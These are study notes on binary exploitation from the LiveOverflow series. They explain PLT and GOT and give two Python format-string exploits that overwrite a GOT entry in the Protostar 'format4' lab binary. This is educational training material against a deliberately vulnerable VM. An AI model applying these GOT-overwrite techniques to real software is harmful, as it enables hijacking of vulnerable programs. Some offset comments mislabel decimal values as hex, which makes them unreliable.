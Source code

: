 # LiveOverflow Binary Exploitation / Memory Corruption

### 0x12 PLT and GOT

When a C program using system functions or lib c functions such as printf, the code of these functions are not found within the C program or compiled executable. Instead, these functions will be dynamically linked to the program (use `ldd BINARY` to see all libraries dynamically linked to a binary as well as the path to the library)

This is beneficial as it reduces the size of our C program while lib c itself can receive updates without having all binaries using lib c to recompile on every update.

On modern OS, the address of the lib c library is randomised via ASLR (on Protostar VM, ASLR is not used so every run of `ldd BINARY` results in the same base memory address of dynamically linked libraries)

To allow programs to correctly reference lib c functions even with ASLR, we use Process Linkage Tables (PLTs) and Global Offset Tables (GOTs)

C program &rarr; Assembly Code &rarr; PLT &rarr; GOT &rarr; Location of function in linked library

Vulnerabilities

1. Arbitrary Write - write to GOT such that instead of executing library functions, we execute our own functions

2. Arbitrary Read - even with ASLR, the addresses in GOT is always fixed. Reading entries in GOT allows you to read addresses in lib c which can give you offset values to get the addresses of other functions in lib c. Useful for finding ROPGadgets, Ret2libc, and BoFs.

### 0x13 Format4

We need to use format strings to write to GOT table (the one that PLT references to)

Answer 1: `python exploit.py | /opt/protostar/bin/format4`

```
import struct

redirect = struct.pack("I", 0x80484b4) #address to hello() which we want redirect to
overwrite = struct.pack("I", 0x8049724) #address in GOT we want to overwrite

exploit = ""
exploit += overwrite
exploit += "%134513840x"
exploit += "%4$n"

print exploit
```

Answer 2: `python exploit.py | /opt/protostar/bin/format4`

```
import struct

redirect = struct.pack("I", 0x80484b4) #address to hello() which we want redirect to
overwrite = struct.pack("I", 0x8049724) #address in GOT we want to overwrite
overwrite2 = struct.pack("I", 0x8049724+2)

exploit = ""
exploit += overwrite
exploit += overwrite2

exploit += "%33964x%4$n"
exploit += "%33616x%5$n"

# 0x00080008 -> without vals
# 0x84b4 - 0x0008 = 0x33964
# 0x84b484b4 -> after using 0x33964 before %4$n
# 0x10804 - 0x84b4 = 0x33616


print exploit
```

### SSH problem fix (no matching host key type found)

ssh -oHostKeyAlgorithms=+ssh-dss XXX@XXX.XXX.XXX.XX
